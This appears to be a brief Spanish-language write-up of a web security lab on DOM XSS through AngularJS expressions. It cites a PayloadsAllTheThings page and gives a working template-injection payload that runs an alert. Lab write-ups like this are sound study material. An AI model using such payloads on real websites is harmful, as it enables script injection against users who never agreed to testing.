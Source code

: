 
# DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

Revisando los recursos encontraremos que se hace uso de `angular` 

![20240807110722.png](20240807110722.png)

Investigando un poco encontraremos el siguiente recurso:

- [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS Angular.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md)

```c
{{constructor.constructor('alert("xss")')()}}
```

![20240807111050.png](20240807111050.png)

